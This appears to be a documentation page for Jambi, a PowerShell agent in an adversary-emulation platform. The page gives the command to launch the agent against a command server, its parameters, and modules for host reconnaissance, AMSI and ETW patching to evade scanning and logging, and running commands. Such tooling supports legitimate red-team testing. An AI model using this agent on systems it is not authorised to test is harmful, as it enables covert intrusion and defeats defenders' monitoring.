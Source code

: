 ```yaml
---
title: "Jambi"
slug: "jambi"
excerpt: ""
hidden: false
metadata: 
  image: []
  robots: "index"
createdAt: "Sun Aug 07 2022 07:01:48 GMT+0000 (Coordinated Universal Time)"
updatedAt: "Sun Aug 07 2022 07:03:21 GMT+0000 (Coordinated Universal Time)"
---
```

Jambi is a fully modular Powershell agent which enables in-memory operations on Windows.

### Supported Protocols

Jambi supports HTTP and HTTPS. 

### Starting Jambi

`powershell .\jambi.ps1 -Address http://192.168.1.1:3391 -Contact http -Name "Demo" -Debug`  
This will launch an agent that will connect to the server at 192.168.1.1 on port 3391 with the given arguments.

### Parameters

- Address: The remote server (Operator) IP Address. Defaults to http\://localhost:3391.
- Contact: The protocol used to the connect to the remote server. Defaults to HTTP.
- Name: The name of the agent. Defaults to a random UUID.
- Sleep: The sleep interval for the agent. Defaults to 30.
- ModuleURI: The path to look for modules to resolve. Defaults to "/payloads/jambi/v1.7/modules/".
- Debug: Enables additional debug logging. Defaults to false. 

### Included Modules

- Jambi-HostRecon: Performs local host and network enumeration. 
- Jambi-LoadPatchType: Creates a "JambiPatcher" [.NET type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type). 
- Jambi-PatchAMSI: Patches AMSI in the current thread, enabling other Powershell commands to be  
  launched without having those scripts scanned.
- Jambi-PatchETW: Patches ETW in the current thread, enabling other Powershell commands to be launched without emitting events.
- Jambi-RunPsh: Run Powershell commands in the current Powershell process. 

### Invoking modules in a TTP

Format your TTP to invoke the modules by including the module name as the first parameter of the command. For example, to perform host enumeration, structure your TTP like this example: 

```yaml
platforms:
    windows:
        psh:
            command: Jambi-HostRecon -DisableDomainChecks
```

For more examples, see the chain [Jambi Modules](https://chains.prelude.org/chains/510bcbab-b7c9-4edd-bab9-3fe4f9ae2f66/jambi-modules) and the associated TTPs.
